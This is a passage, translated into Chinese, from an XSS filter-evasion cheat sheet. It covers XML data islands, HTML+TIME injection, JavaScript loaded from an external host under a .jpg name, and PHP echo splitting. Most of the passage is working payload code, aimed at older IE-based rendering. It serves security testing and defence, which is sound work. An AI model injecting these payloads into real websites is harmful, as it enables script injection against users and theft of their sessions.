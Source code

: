 ### 

### 

### 2.74.    CDATA混淆的XML数据岛

这个XSS攻击只在IE和使用IE渲染模式的Netscape 8.1下有效-攻击向量由Sec Consult在审计Yahoo时发现

> <XML ID="xss"><I><B><IMG SRC="javascript:alert('XSS')"></B></I></XML>
>
> <SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>

### 2.75.    使用XML数据岛生成含内嵌JavaScript的本地XML文件

这和上面是一样的但是将来源替换为了包含跨站脚本攻击向量的本地XML文件（必须在同一服务器上）：

> <XML SRC="xsstest.xml" ID=I></XML>
>
> <SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>

### 2.76.    XML中使用HTML+TIME

这是Grey Magic攻击Hotmail和Yahoo的方法。这只在IE和IE渲染模式下的Netscape8.1有效并且记得需要在HTML域的BODY标签中间才有效：

> <HTML><BODY>
>
> <?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
>
> <?import namespace="t" implementation="#default#time2">
>
> <t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
>
> </BODY></HTML>

### 2.77.    使用一些字符绕过".js"过滤

你可以将你的JavaScript文件重命名为图像来作为XSS攻击向量：

> <SCRIPT SRC="<http://xss.rocks/xss.jpg>"></SCRIPT>

### 2.78.    SSI（服务端脚本包含）

这需要在服务器端允许SSI来使用XSS攻击向量。似乎不用提示这点，因为如果你可以在服务器端执行指令那一定是有更严重的问题存在：

> 

### 2.79.    PHP

需要服务器端安装了PHP来使用XSS攻击向量。同样，如果你可以远程运行任意脚本，那会有更加严重的问题：

> <? echo('<SCR)';
>
> echo('IPT>alert("XSS")</SCRIPT>'); ?>

### 2.80.    嵌入命令的IMAGE
